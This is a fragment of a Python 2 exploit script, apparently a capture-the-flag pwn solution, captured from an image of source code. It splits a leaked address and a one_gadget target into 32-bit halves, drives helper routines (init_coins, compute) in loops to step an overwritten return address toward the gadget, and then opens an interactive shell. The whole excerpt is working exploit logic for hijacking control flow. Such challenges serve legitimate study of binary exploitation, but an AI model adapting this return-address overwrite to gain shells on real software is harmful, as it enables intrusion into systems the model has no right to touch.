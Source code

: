 ```python

  exec_leak = l


  one_gadget_part_1 = one_gadget & 0xffffffff
  ret_address_part_1 = exec_leak & 0xffffffff
  one_gadget_part_2 = (one_gadget>>32) & 0xffffffff
  ret_address_part_2 = (exec_leak>>32) & 0xffffffff


  temp = (one_gadget_part_1 - ret_address_part_1)
  print temp

  if(temp > 300000000 or temp < 0):
    p.close()
    continue
  init_coins(4, [9 for i in range(4)])
  while(one_gadget_part_1 > ret_address_part_1 + 6322120):
    compute(3006)
    ret_address_part_1 += 6322120

  print "HOPE"

  init_coins(3, [9 for i in range(3)])
  while(one_gadget_part_1 > ret_address_part_1 + 56280):
    compute(3006)
    ret_address_part_1 += 56280

  print "HOPE"

  init_coins(2, [9 for i in range(2)])
  while(one_gadget_part_1 > ret_address_part_1 + 335):
    compute(3006)
    ret_address_part_1 += 335

  print "HOPE"

  init_coins(1, [9])
  while(one_gadget_part_1 != ret_address_part_1):
    compute(3006)
    ret_address_part_1 += 1

  print "HOPE"

  init_coins(2, [31 for i in range(2)])
  while(one_gadget_part_2 > ret_address_part_2 + 98):
    compute(3007)
    ret_address_part_2 += 98

  print "HOPE"

  init_coins(1, [31])
  while(one_gadget_part_2 != ret_address_part_2):
    compute(3007)
    ret_address_part_2 += 1

  end()
  p.interactive()
  p.close()
```
